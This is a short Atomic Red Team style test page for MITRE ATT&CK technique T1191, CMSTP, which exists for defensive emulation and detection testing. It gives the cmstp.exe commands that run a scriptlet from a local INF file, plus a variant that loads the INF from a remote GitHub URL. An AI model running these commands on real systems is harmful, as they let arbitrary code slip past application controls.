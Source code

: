 ## CMSTP

MITRE ATT&CK Technique: [T1191](https://attack.mitre.org/wiki/Technique/T1191)

### Scriptlet execution

    cmstp.exe /s CMSTP.inf

Remote:

    cmstp.exe /ni /s https://github.com/redcanaryco/atomic-red-team/blob/master/Windows/Payloads/CMSTP.inf

## Test Script

[CMSTP.INF](https://github.com/redcanaryco/atomic-red-team/blob/master/Windows/Payloads/CMSTP.inf)

[CMSTP.SCT](https://github.com/redcanaryco/atomic-red-team/blob/master/Windows/Payloads/CMSTP.sct)
